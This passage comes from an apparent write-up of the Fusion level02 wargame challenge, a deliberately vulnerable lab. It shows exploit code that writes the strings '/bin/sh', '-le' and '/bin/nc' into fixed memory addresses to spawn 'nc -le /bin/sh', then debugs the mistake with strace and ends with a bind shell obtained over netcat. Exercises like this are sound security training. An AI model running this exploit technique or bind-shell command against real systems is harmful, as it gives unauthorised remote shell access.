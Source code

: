 nread will read from the connection and shove any byte i send it into
the locations specified. These locations do not change when restarting 
the program, which comes in handy.

~~~
time.sleep(0.5)
s.sendall('/bin/sh\x00-le\x00/bin/nc\x00') 
time.sleep(0.5)
s.sendall(pack('I', 0x804b46c)+pack('I',0x804b464))
~~~

At this point, we are able to execute `nc -le /bin/sh`, buuuut... Theres something
not quite right.

We can see what's going wrong if we attach to the process with
**strace** (specifying `-f` to follow forking, telling strace what pid
to attach to via `-p` & `-s` to let strace know that it should print
strings up to a length of 64.)

~~~
root@fusion:~# strace -p 1492 -f -s 64
...
[pid  6692] write(2, "/bin/sh: forward host lookup failed: ", 37) = 37
[pid  6692] write(2, "Unknown host", 12) = 12
[pid  6692] write(2, "\n", 1)           = 1
[pid  6692] close(-1)                   = -1 EBADF (Bad file descriptor)
[pid  6692] exit_group(1)               = ?

:(
~~~

Why is this happening?

We can reproduce the error message if we run `nc /bin/sh`

Seems like the `-le` parameter is getting lost somewhere :)
 
This is probably because normally, a program would be given argv with
`/path/to/program` as argv[0], in our case argv[0] is 
`-le`, which might screw things up. I'm not sure though.

We correct our simple error by prepending the address of
the string `/bin/nc` in our own argv and just like that, we're in.

~~~
$ python level02_solution.py
$ netstat -l
...
tcp		0		0 *:34551		*:*			LISTEN
...
$ nc 127.0.0.1 34551
id
uid=20002 gid=20002 groups=20002
~~~

![Success]({{ site-url }}/assets/post_images/fusion_level02_success.gif)
